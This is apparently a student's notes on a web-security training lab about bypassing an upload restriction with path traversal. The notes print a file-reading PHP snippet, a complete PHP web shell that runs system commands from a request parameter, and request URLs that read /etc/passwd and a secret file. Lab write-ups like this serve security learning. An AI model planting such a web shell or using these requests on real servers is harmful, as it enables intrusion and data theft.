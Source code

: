 This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

---

The app is turning the php code into plain text so i try to upload to a different directory with path traversal. 

![[Pasted image 20240916121727.png]]

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

![[Pasted image 20240916123413.png]]

```php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```

```php
https://0adf0015032ec47481e3a80400e80049.web-security-academy.net/files/simple-backdoor.php?cmd=cat+/home/carlos/secret
```

`brT81souYmsxNS1TGAisaSiUQkKBGqIA`

